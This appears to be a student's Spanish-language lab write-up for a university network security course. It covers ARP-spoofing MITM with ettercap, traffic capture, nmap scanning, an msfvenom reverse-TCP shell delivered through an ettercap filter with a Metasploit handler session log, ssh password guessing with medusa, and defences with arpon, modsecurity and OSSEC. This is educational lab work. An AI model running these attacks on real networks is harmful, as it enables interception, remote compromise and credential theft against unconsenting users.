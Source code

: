 # PRACTICA 2 LSI

<details>
  <summary>a) Instale el ettercap y pruebe sus opciones básicas en línea de comando.</summary>

  ```console
  root@debian:/home/lsi# apt install ettercap-text-only
  ```
</details>
<details>
  <summary>b) Capture paquetería variada de su compañero de prácticas que incluya varias sesiones HTTP. Sobre esta paquetería (puede utilizar el wireshark para los siguientes subapartados)</summary>

  Previo a los apartados debemos hacer un MITM a la máquina de nuestro compañero :
  ```console
root@debian:/home/lsi# ettercap -T -q -i ens33 -M arp:remote //10.11.48.183/ //10.11.48.1/

ettercap 0.8.3.1 copyright 2001-2020 Ettercap Development Team

Listening on:
 ens33 -> 00:50:56:97:15:21
	  10.11.48.71/255.255.254.0
	  fe80::250:56ff:fe97:1521/64

SSL dissection needs a valid 'redir_command_on' script in the etter.conf file
Privileges dropped to EUID 65534 EGID 65534...

  34 plugins
  42 protocol dissectors
  57 ports monitored
28230 mac vendor fingerprint
1766 tcp OS fingerprint
2182 known services
Lua: no scripts were specified, not starting up!

Scanning for merged targets (2 hosts)...

* |==================================================>| 100.00 %

2 hosts added to the hosts list...

ARP poisoning victims:

 GROUP 1 : 10.11.48.183 00:50:56:97:EB:AC

 GROUP 2 : 10.11.48.1 DC:08:56:10:84:B9
Starting Unified sniffing...


Text only Interface activated...
Hit 'h' for inline help
  ```
Luego en otra terminal hacemos un tcpdump para guardar el trafico
```console
root@debian:/home/lsi# tcpdump -i ens33 -s 65535 -w compa.pcap
tcpdump: listening on ens33, link-type EN10MB (Ethernet), snapshot length 65535 bytes
916 packets captured
919 packets received by filter
0 packets dropped by kernel
```
Este archivo me lo paso a mi máquina real y lo leo desde Wireshark.

  -  Identifique los campos de cabecera de un paquete TCP
```console
     Frame 6: 66 bytes on wire (528 bits), 66 bytes captured (528 bits)
Ethernet II, Src: Alcatel-_10:84:b9 (dc:08:56:10:84:b9), Dst: VMware_97:15:21 (00:50:56:97:15:21)
Internet Protocol Version 4, Src: 10.20.38.93, Dst: 10.11.48.71
Transmission Control Protocol, Src Port: 56904, Dst Port: 22, Seq: 1, Ack: 45, Len: 0
    Source Port: 56904
    Destination Port: 22
    [Stream index: 0]
    [Conversation completeness: Incomplete (12)]
    [TCP Segment Len: 0]
    Sequence Number: 1    (relative sequence number)
    Sequence Number (raw): 2990874455
    [Next Sequence Number: 1    (relative sequence number)]
    Acknowledgment Number: 45    (relative ack number)
    Acknowledgment number (raw): 1338463224
    1000 .... = Header Length: 32 bytes (8)
    Flags: 0x010 (ACK)
    Window: 501
    [Calculated window size: 501]
    [Window size scaling factor: -1 (unknown)]
    Checksum: 0x6622 [unverified]
    [Checksum Status: Unverified]
    Urgent Pointer: 0
    Options: (12 bytes), No-Operation (NOP), No-Operation (NOP), Timestamps
    [Timestamps]
    [SEQ/ACK analysis]
```
     
  -  Filtre la captura para obtener el tráfico HTTP
  -  Obtenga los distintos “objetos” del tráfico HTTP (imágenes, pdfs, etc.)
  -  Visualice la paquetería TCP de una determinada sesión.

      Analyze > Follow > TCP Stream
  
  -  Sobre el total de la paquetería obtenga estadísticas del tráfico por protocolo como fuente de información para un análisis básico del tráfico.

     Statistics > Protocol Hierarchy
  
  -  Obtenga información del tráfico de las distintas “conversaciones” mantenidas.

     Statistics > Conversations
  
  -  Obtenga direcciones finales del tráfico de los distintos protocolos como mecanismo para determinar qué circula por nuestras redes.

     Statistics > Endpoints

</details>
<details>
	<summary>c) Obtenga la relación de las direcciones MAC de los equipos de su segmento.</summary>

```console
 root@debian:/home/lsi# nmap -sP 10.11.48.0/23 >> nmap.txt
```
En el archivo .txt podemos ver las direcciones MAC.

</details>

<details>
	<summary>d) Obtenga la relación de las direcciones IPv6 de su segmento.</summary>

 ```console
root@debian:/home/lsi#  ping6 -c2 -I ens33 ff02::1 >> ipv6.txt
root@debian:/home/lsi# ip -6 neigh >> neighbours.txt
 ```
</details>
<details>
	<summary>f) Mediante arpspoofing entre una máquina objetivo (víctima) y el router del laboratorio obtenga todas las URL HTTP visitadas por la víctima.</summary>

</details>
<details>
	<summary>g) Instale metasploit. Haga un ejecutable que incluya un Reverse TCP meterpreter payload para plataformas linux. Inclúyalo en un filtro ettercap y aplique toda su sabiduría en ingeniería social para que una víctima u objetivo lo ejecute.</summary>

1. Instalar metasploit
```console
  root@debian:/home/lsi# curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
  chmod 755 msfinstall && \
  ./msfinstall
```
2. Creamos el playload:
```console
root@debian:/home/lsi# msfvenom -p linux/x86/shell/reverse_tcp LHOST=10.11.48.71 LPORT=4444 -f elf > payload.bin
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 123 bytes
Final size of elf file: 207 bytes

```
3. Lo metemos en la victima :
```console
root@debian:/home/lsi# nano ett.filter
root@debian:/home/lsi# etterfilter ett.filter -o ig.ef

etterfilter 0.8.3.1 copyright 2001-2020 Ettercap Development Team


 14 protocol tables loaded:
	DECODED DATA udp tcp esp gre icmp ipv6 ip arp wifi fddi tr eth 

 13 constants loaded:
	VRRP OSPF GRE UDP TCP ESP ICMP6 ICMP PPTP PPPOE IP6 IP ARP 

 Parsing source file 'ett.filter'  done.

 Unfolding the meta-tree  done.

 Converting labels to real offsets  done.

 Writing output to 'ig.ef'  done.

 -> Script encoded into 6 instructions.


root@debian:/home/lsi# echo 1 > /proc/sys/net/ipv4/ip_forward

root@debian:/home/lsi# ettercap -T -F ig.ef -i ens33 -q -M arp:remote //10.11.48.183/ //10.11.48.1/

ettercap 0.8.3.1 copyright 2001-2020 Ettercap Development Team

Content filters loaded from ig.ef...
Listening on:
 ens33 -> 00:50:56:97:15:21
	  10.11.48.71/255.255.254.0
	  fe80::250:56ff:fe97:1521/64

SSL dissection needs a valid 'redir_command_on' script in the etter.conf file
Privileges dropped to EUID 65534 EGID 65534...

  34 plugins
  42 protocol dissectors
  57 ports monitored
28230 mac vendor fingerprint
1766 tcp OS fingerprint
2182 known services
Lua: no scripts were specified, not starting up!

Scanning for merged targets (2 hosts)...

* |==================================================>| 100.00 %

2 hosts added to the hosts list...

ARP poisoning victims:

 GROUP 1 : 10.11.48.183 00:50:56:97:EB:AC

 GROUP 2 : 10.11.48.1 DC:08:56:10:84:B9
Starting Unified sniffing...


Text only Interface activated...
Hit 'h' for inline help

replaced href.

replaced href.

replaced href.

replaced href.

replaced href.

replaced href.

replaced href.

```
4. Reverse shell en el atacante :
```console
root@debian:/home/lsi# msfconsole
Metasploit tip: View all productivity tips with the tips command
                                                  

         .                                         .
 .

      dBBBBBBb  dBBBP dBBBBBBP dBBBBBb  .                       o
       '   dB'                     BBP
    dB'dB'dB' dBBP     dBP     dBP BB
   dB'dB'dB' dBP      dBP     dBP  BB
  dB'dB'dB' dBBBBP   dBP     dBBBBBBB

                                   dBBBBBP  dBBBBBb  dBP    dBBBBP dBP dBBBBBBP
          .                  .                  dB' dBP    dB'.BP
                             |       dBP    dBBBB' dBP    dB'.BP dBP    dBP
                           --o--    dBP    dBP    dBP    dB'.BP dBP    dBP
                             |     dBBBBP dBP    dBBBBP dBBBBP dBP    dBP

                                                                    .
                .
        o                  To boldly go where no
                            shell has gone before


       =[ metasploit v6.3.42-dev-                         ]
+ -- --=[ 2374 exploits - 1230 auxiliary - 414 post       ]
+ -- --=[ 1388 payloads - 46 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.11.48.71
LHOST => 10.11.48.71
msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.11.48.71:4444 
[*] Sending stage (36 bytes) to 10.11.48.183
ls
[*] Command shell session 1 opened (10.11.48.71:4444 -> 10.11.48.183:44364) at 2023-11-07 16:05:31 +0100

Descargas
Documentos
Escritorio
Imágenes
Música
Plantillas
Público
Vídeos
coreruleset-3.3.0
dict.txt
etter.filter
logsInicio
logssh
ossec-hids-3.7.0
ossec-hids-3.7.0.zip
payload.bin
echo h4ck3d > h4ck3d.txt
cat h4ck3d.txt
h4ck3d
exit
[*] 10.11.48.183 - Command shell session 1 closed.
msf6 exploit(multi/handler) > 

```
	
</details>
<details>
	<summary>h) Haga un MITM en IPv6 y visualice la paquetería.</summary>
</details>




<details>
	<summary>i) Pruebe alguna herramienta y técnica de detección del sniffing (preferiblemente arpon).</summary>

1. Vaciamos arp : 
```console
root@debian:/home/lsi# ip -s -s neigh flush all
10.11.49.104 dev ens33 lladdr 00:50:56:97:10:6b  used 486/546/486probes 0 STALE 
10.11.48.1 dev ens33 lladdr dc:08:56:10:84:b9  ref 1 used 3/0/3probes 1 REACHABLE 
10.11.48.183 dev ens33 lladdr 00:50:56:97:eb:ac  ref 1 used 17/17/17probes 1 REACHABLE 

*** Round 1, deleting 3 entries ***
10.11.48.1 dev ens33 lladdr dc:08:56:10:84:b9  ref 1 used 0/0/0probes 4 REACHABLE 

*** Round 2, deleting 1 entries ***
10.11.48.1 dev ens33 lladdr dc:08:56:10:84:b9  ref 1 used 0/0/0probes 4 REACHABLE 

*** Round 3, deleting 1 entries ***
10.11.48.1 dev ens33  ref 1 used 0/60/0probes 4 INCOMPLETE 

*** Round 4, deleting 1 entries ***
*** Flush is complete after 4 rounds ***

```
2. Usamos arpon para detectar :
```console
root@debian:/home/lsi# cat /etc/arpon.conf
#
# ArpON configuration file.
#
# See the arpon(8) man page for details.
#

#
# Static entries matching the eth0 network interface:
#
# First static entry:
#192.168.1.1     58:ac:78:10:b9:77
# Second static entry:
#192.168.1.3     d4:be:d9:fe:8b:45
# Third static entry:
#192.168.1.4     90:94:e4:bb:1c:10

#
# Static entries matching the eth1 network interface:
#
# First static entry:
#10.0.1.1        58:ac:78:88:1a:bb
# Second static entry:
#10.0.10.1       90:94:e4:7e:f4:59
root@debian:/home/lsi# arpon -d -i ens33 -H
root@debian:/home/lsi# Nov 07 16:18:49 [INFO] Background process is running (2491).
^C
root@debian:/home/lsi# ps -A | grep arpon
   2491 ?        00:00:00 arpon
root@debian:/home/lsi# kill 2491

```
</details>
<details>
	<summary>j) Pruebe distintas técnicas de host discovey, port scanning y OS fingerprinting sobre las máquinas del laboratorio de prácticas en IPv4. Realice alguna de las pruebas de port scanning sobre IPv6. ¿Coinciden los servicios prestados por un sistema con los de IPv4?.</summary>

1. Escaneamos en IPv4
```console
root@debian:/home/lsi# nmap -A 10.11.48.1/24 > nmap_full.txt
```
2. Escaneapos IPv6
```console
root@debian:/home/lsi# nmap -A -6 fe80::250:56ff:fe97:d0a2 > nmap_6.txt
```
</details>
<details>
	<summary>k) Obtenga información “en tiempo real” sobre las conexiones de su máquina, así como del ancho de banda consumido en cada una de ellas.</summary>

```console
root@debian:/home/lsi# iftop -i ens33
```
```console
root@debian:/home/lsi# vnstat -l -i ens33
```
</details>

<details>
	<summary>l) Monitorizamos nuestra infraestructura.:</summary>

- Instale prometheus y node_exporter y configúrelos para recopilar todo tipo de métricas de su máquina linux.

  
- Posteriormente instale grafana y agregue como fuente de datos las métricas de su equipo de prometheus.

  
- Importe vía grafana el dashboard 1860.

  
- En los ataques de los apartados m y n busque posibles alteraciones en las métricas visualizadas.

  
</details>

<details>
	<summary>m) PARA PLANTEAR DE FORMA TEÓRICA.: ¿Cómo podría hacer un DoS de tipo direc attack contra un equipo de la red de prácticas? ¿Y mediante un DoS de tipo reflective flooding attack?.</summary>

 
</details>

<details>
	<summary>n) Ataque un servidor apache instalado en algunas de las máquinas del laboratorio de prácticas para tratar de provocarle una DoS. Utilice herramientas DoS que trabajen a nivel de aplicación (capa 7). ¿Cómo podría proteger dicho servicio ante este tipo de ataque? ¿Y si se produjese desde fuera de su segmento de red? ¿Cómo podría tratar de saltarse dicha protección?</summary>

```console
root@debian:/home/lsi# apt install apache2
```
- ¿Cómo podría proteger dicho servicio ante este tipo de ataque?
  Con un firewall de app web como modsecurity.
- Y si se produjese desde fuera de su segmento de red?
- ¿Cómo podría tratar de saltarse dicha protección?
</details>

<details>
	<summary>o) Instale y configure modsecurity. Vuelva a proceder con el ataque del apartado anterior. ¿Qué acontece ahora?</summary>

```console
root@debian:/home/lsi# apt install libapache2-mod-security2
```

```console
root@debian:/home/lsi# a2enmod headers
Enabling module headers.
To activate the new configuration, you need to run:
  systemctl restart apache2
```
```console
root@debian:/home/lsi# cp /etc/modsecurity/modsecurity.conf-recommended modsecurity.conf
root@debian:/home/lsi# nano modsecurity.conf
 ###Change SecRuleEngine from DetectionOnly to On
root@debian:/home/lsi# cp modsecurity.conf /etc/modsecurity/modsecurity.conf
```

```console
root@debian:/home/lsi# apt install libapache2-mod-evasive
root@debian:/home/lsi# a2enmod evasive
root@debian:/home/lsi# cat /etc/apache2/mods-enabled/evasive.conf 
<IfModule mod_evasive20.c>
    #DOSHashTableSize    3097
    #DOSPageCount        2
    #DOSSiteCount        50
    #DOSPageInterval     1
    #DOSSiteInterval     1
    #DOSBlockingPeriod   10

    #DOSEmailNotify      you@yourdomain.com
    #DOSSystemCommand    "su - someuser -c '/sbin/... %s ...'"
    #DOSLogDir           "/var/log/mod_evasive"
</IfModule>

```
 
</details>
<details>
	<summary> p) Buscamos información.: </summary>

- Obtenga de forma pasiva el direccionamiento público IPv4 e IPv6 asignado a la Universidade da Coruña

- Obtenga información sobre el direccionamiento de los servidores DNS y MX de la Universidade da Coruña.

- ¿Puede hacer una transferencia de zona sobre los servidores DNS de la UDC?.

- En caso negativo, obtenga todos los nombres.dominio posibles de la UDC.

- ¿Qué gestor de contenidos se utiliza en www.usc.es?

</details>
<details>
	<summary> q) Trate de sacar un perfil de los principales sistemas que conviven en su red de prácticas, puertos accesibles, fingerprinting, etc.</summary>
 
```console
root@debian:/home/lsi# nmap -A 10.11.48.0/23 > nmap_full.txt
```
</details>
<details>
	<summary> r) Realice algún ataque de “password guessing” contra su servidor ssh y compruebe que el analizador de logs reporta las correspondientes alarmas.</summary>

```console
root@debian:/home/lsi# medusa -h 10.11.48.183 -u lsi -P pwd.text -M ssh
```

</details>

<details>
	<summary>s) Reportar alarmas está muy bien, pero no estaría mejor un sistema activo, en lugar de uno pasivo. Configure algún sistema activo, por ejemplo OSSEC, y pruebe su funcionamiento ante un “password guessing”.</summary>

```console
root@debian: /home/lsi# git clone https://github.com/ossec/ossec-hids.git
root@debian:/home/lsi/ossec-hids# ./install.sh
root@debian:/home/lsi/ossec-hids# /var/ossec/bin/ossec-control start
```

 
</details>
<details>
	<summary>t) Supongamos que una máquina ha sido comprometida y disponemos de un fichero con sus mensajes de log. Procese dicho fichero con OSSEC para tratar de localizar evidencias de lo acontecido (“post mortem”). Muestre las alertas detectadas con su grado de criticidad, así como un resumen de las mismas.</summary>

```console
root@debian:/home/lsi#  cat /var/log/auth.log | /var/ossec/bin/ossec-logtest -a
2023/11/09 17:06:05 ossec-testrule: INFO: Reading local decoder file.
2023/11/09 17:06:06 ossec-testrule: INFO: Started (pid: 1381).
** Alert 1699545966.1: mail  - syslog,fts,authentication_success
2023 Nov 09 17:06:06 debian->stdin
Rule: 10100 (level 4) -> 'First time user logged in.'
Src IP: 10.20.37.166
User: lsi
2023-11-09T17:01:52+01:00 debian sshd[504536]: Accepted password for lsi from 10.20.37.166 port 45824 ssh2

** Alert 1699545966.2: - pam,syslog,authentication_success,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5501 (level 3) -> 'Login session opened.'
2023-11-09T17:01:52+01:00 debian sshd[504536]: pam_unix(sshd:session): session opened for user lsi(uid=1000) by (uid=0)

** Alert 1699545966.3: - pam,syslog,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5503 (level 5) -> 'User login failed.'
Src IP: 10.11.48.183
User: lsi
2023-11-09T17:02:11.072216+01:00 debian sshd[2722]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=10.11.48.183  user=lsi

** Alert 1699545966.4: - syslog,sshd,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5716 (level 5) -> 'SSHD authentication failed.'
Src IP: 10.11.48.183
User: lsi
2023-11-09T17:02:13.179170+01:00 debian sshd[2722]: Failed password for lsi from 10.11.48.183 port 60390 ssh2

** Alert 1699545966.5: - syslog,sshd,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5716 (level 5) -> 'SSHD authentication failed.'
Src IP: 10.11.48.183
User: lsi
2023-11-09T17:02:14.754833+01:00 debian sshd[2722]: Failed password for lsi from 10.11.48.183 port 60390 ssh2

** Alert 1699545966.6: - syslog,sshd,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5716 (level 5) -> 'SSHD authentication failed.'
Src IP: 10.11.48.183
User: lsi
2023-11-09T17:02:17.669016+01:00 debian sshd[2722]: Failed password for lsi from 10.11.48.183 port 60390 ssh2

** Alert 1699545966.7: mail  - syslog,sshd,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5758 (level 8) -> 'Maximum authentication attempts exceeded.'
Src IP: 10.11.48.183
Src Port: 60390
User: lsi
2023-11-09T17:02:17.984079+01:00 debian sshd[2722]: error: maximum authentication attempts exceeded for lsi from 10.11.48.183 port 60390 ssh2 [preauth]

** Alert 1699545966.8: - syslog,access_control,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 2501 (level 5) -> 'User authentication failure.'
2023-11-09T17:02:17.984416+01:00 debian sshd[2722]: Disconnecting authenticating user lsi 10.11.48.183 port 60390: Too many authentication failures [preauth]

** Alert 1699545966.9: mail  - syslog,access_control,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 2502 (level 10) -> 'User missed the password more than one time'
Src IP: 10.11.48.183
User: lsi
2023-11-09T17:02:17.984636+01:00 debian sshd[2722]: PAM 2 more authentication failures; logname= uid=0 euid=0 tty=ssh ruser= rhost=10.11.48.183  user=lsi

** Alert 1699545966.10: - pam,syslog,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5503 (level 5) -> 'User login failed.'
Src IP: 10.11.48.183
User: lsi
2023-11-09T17:02:18.075385+01:00 debian sshd[2724]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=10.11.48.183  user=lsi

** Alert 1699545966.11: - pam,syslog,authentication_success,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5501 (level 3) -> 'Login session opened.'
2023-11-09T17:02:20+01:00 debian su[504566]: pam_unix(su:session): session opened for user root(uid=0) by lsi(uid=1000)

** Alert 1699545966.12: - syslog,sshd,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5716 (level 5) -> 'SSHD authentication failed.'
Src IP: 10.11.48.183
User: lsi
2023-11-09T17:02:20.473583+01:00 debian sshd[2724]: Failed password for lsi from 10.11.48.183 port 48854 ssh2

** Alert 1699545966.13: - syslog,sshd,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5716 (level 5) -> 'SSHD authentication failed.'
Src IP: 10.11.48.183
User: lsi
2023-11-09T17:02:24.298381+01:00 debian sshd[2724]: Failed password for lsi from 10.11.48.183 port 48854 ssh2

** Alert 1699545966.14: - syslog,sshd,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5716 (level 5) -> 'SSHD authentication failed.'
Src IP: 10.11.48.183
User: lsi
2023-11-09T17:02:27.213097+01:00 debian sshd[2724]: Failed password for lsi from 10.11.48.183 port 48854 ssh2

** Alert 1699545966.15: mail  - syslog,access_control,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 2502 (level 10) -> 'User missed the password more than one time'
Src IP: 10.11.48.183
User: lsi
2023-11-09T17:02:27.282521+01:00 debian sshd[2724]: PAM 2 more authentication failures; logname= uid=0 euid=0 tty=ssh ruser= rhost=10.11.48.183  user=lsi

** Alert 1699545966.16: - pam,syslog,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5503 (level 5) -> 'User login failed.'
Src IP: 10.11.48.71
User: lsi
2023-11-09T17:02:44+01:00 debian sshd[504569]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=10.11.48.71  user=lsi

** Alert 1699545966.17: - syslog,sshd,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5716 (level 5) -> 'SSHD authentication failed.'
Src IP: 10.11.48.71
User: lsi
2023-11-09T17:02:46+01:00 debian sshd[504569]: Failed password for lsi from 10.11.48.71 port 51340 ssh2

** Alert 1699545966.18: - syslog,sshd,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5716 (level 5) -> 'SSHD authentication failed.'
Src IP: 10.11.48.71
User: lsi
2023-11-09T17:02:48+01:00 debian sshd[504569]: Failed password for lsi from 10.11.48.71 port 51340 ssh2

** Alert 1699545966.19: - syslog,sshd,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5716 (level 5) -> 'SSHD authentication failed.'
Src IP: 10.11.48.71
User: lsi
2023-11-09T17:02:51+01:00 debian sshd[504569]: Failed password for lsi from 10.11.48.71 port 51340 ssh2

** Alert 1699545966.20: mail  - syslog,sshd,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5758 (level 8) -> 'Maximum authentication attempts exceeded.'
Src IP: 10.11.48.71
Src Port: 51340
User: lsi
2023-11-09T17:02:51+01:00 debian sshd[504569]: error: maximum authentication attempts exceeded for lsi from 10.11.48.71 port 51340 ssh2 [preauth]

** Alert 1699545966.21: - syslog,access_control,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 2501 (level 5) -> 'User authentication failure.'
2023-11-09T17:02:51+01:00 debian sshd[504569]: Disconnecting authenticating user lsi 10.11.48.71 port 51340: Too many authentication failures [preauth]

** Alert 1699545966.22: mail  - syslog,access_control,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 2502 (level 10) -> 'User missed the password more than one time'
Src IP: 10.11.48.71
User: lsi
2023-11-09T17:02:51+01:00 debian sshd[504569]: PAM 2 more authentication failures; logname= uid=0 euid=0 tty=ssh ruser= rhost=10.11.48.71  user=lsi

** Alert 1699545966.23: - pam,syslog,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5503 (level 5) -> 'User login failed.'
Src IP: 10.11.48.71
User: lsi
2023-11-09T17:02:52+01:00 debian sshd[504582]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=10.11.48.71  user=lsi

** Alert 1699545966.24: - syslog,sshd,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5716 (level 5) -> 'SSHD authentication failed.'
Src IP: 10.11.48.71
User: lsi
2023-11-09T17:02:54+01:00 debian sshd[504582]: Failed password for lsi from 10.11.48.71 port 40562 ssh2

** Alert 1699545966.25: - pam,syslog,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5502 (level 3) -> 'Login session closed.'
2023-11-09T17:03:19.932470+01:00 debian sshd[1173]: pam_unix(sshd:session): session closed for user lsi

** Alert 1699545966.26: - pam,syslog,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5502 (level 3) -> 'Login session closed.'
2023-11-09T17:03:19.938755+01:00 debian su[2520]: pam_unix(su:session): session closed for user root

** Alert 1699545966.27: mail  - syslog,errors,
2023 Nov 09 17:06:06 debian->stdin
Rule: 1002 (level 2) -> 'Unknown problem somewhere in the system.'
2023-11-09T17:03:19.973671+01:00 debian sshd[1173]: pam_systemd(sshd:session): Failed to release session: Interrupted system call

** Alert 1699545966.28: - syslog,sshd,authentication_success,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5715 (level 3) -> 'SSHD authentication success.'
Src IP: 10.20.36.34
User: lsi
2023-11-09T17:04:04.231046+01:00 debian sshd[1217]: Accepted password for lsi from 10.20.36.34 port 39014 ssh2

** Alert 1699545966.29: - pam,syslog,authentication_success,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5501 (level 3) -> 'Login session opened.'
2023-11-09T17:04:04.231988+01:00 debian sshd[1217]: pam_unix(sshd:session): session opened for user lsi(uid=1000) by (uid=0)

** Alert 1699545966.30: - pam,syslog,authentication_success,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5501 (level 3) -> 'Login session opened.'
2023-11-09T17:04:04.393876+01:00 debian (systemd): pam_unix(systemd-user:session): session opened for user lsi(uid=1000) by (uid=0)

** Alert 1699545966.31: - pam,syslog,authentication_success,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5501 (level 3) -> 'Login session opened.'
2023-11-09T17:04:22.120251+01:00 debian su[1375]: pam_unix(su:session): session opened for user root(uid=0) by lsi(uid=1000)

root@debian:/home/lsi# cat /var/log/auth.log | /var/ossec/bin/ossec-logtest -a |/var/ossec/bin/ossec-reportd
2023/11/09 17:07:01 ossec-reportd: INFO: Started (pid: 1385).
2023/11/09 17:07:01 ossec-testrule: INFO: Reading local decoder file.
2023/11/09 17:07:01 ossec-testrule: INFO: Started (pid: 1384).
2023/11/09 17:07:06 ossec-reportd: INFO: Report completed. Creating output...
 
Report completed. ==
------------------------------------------------
->Processed alerts: 31
->Post-filtering alerts: 31
->First alert: 2023 Nov 09 17:07:01
->Last alert: 2023 Nov 09 17:07:01
 
 
Top entries for 'Source ip':
------------------------------------------------
10.11.48.183                                                                  |11      |
10.11.48.71                                                                   |8       |
10.20.36.34                                                                   |1       |
10.20.37.166                                                                  |1       |
 
 
Top entries for 'Username':
------------------------------------------------
lsi                                                                           |21      |
 
 
Top entries for 'Level':
------------------------------------------------
Severity 5                                                                    |16      |
Severity 3                                                                    |8       |
Severity 10                                                                   |3       |
Severity 8                                                                    |2       |
Severity 2                                                                    |1       |
Severity 4                                                                    |1       |
 
 
Top entries for 'Group':
------------------------------------------------
syslog                                                                        |31      |
authentication_failed                                                         |21      |
sshd                                                                          |13      |
pam                                                                           |11      |
authentication_success                                                        |7       |
access_control                                                                |5       |
errors                                                                        |1       |
fts                                                                           |1       |
 
 
Top entries for 'Location':
------------------------------------------------
debian->stdin                                                                 |31      |
 
 
Top entries for 'Rule':
------------------------------------------------
5716 - SSHD authentication failed.                                            |10      |
5501 - Login session opened.                                                  |5       |
5503 - User login failed.                                                     |4       |
2502 - User missed the password more than one time                            |3       |
2501 - User authentication failure.                                           |2       |
5502 - Login session closed.                                                  |2       |
5758 - Maximum authentication attempts exceeded.                              |2       |
1002 - Unknown problem somewhere in the system.                               |1       |
10100 - First time user logged in.                                            |1       |
5715 - SSHD authentication success.                                           |1       |
 

```

</details>

Defensa : 
- Tirar abajo servidor web del compañero.
-  Levantar cosas para protegernos de sus ataques
-  slowlories
-  slowget
-  Visualizar las URL del compañero
-  fichero pcap : uno propio y uno del compañero.
-  Metasploit
-  ett.filter
-  Information gethering : direccionamiento, transferencia de zona.
-  Prometeus.  grafana : Dashboard.
-  OSSEC. (Bajar timeouts a 120s)
-  arpon
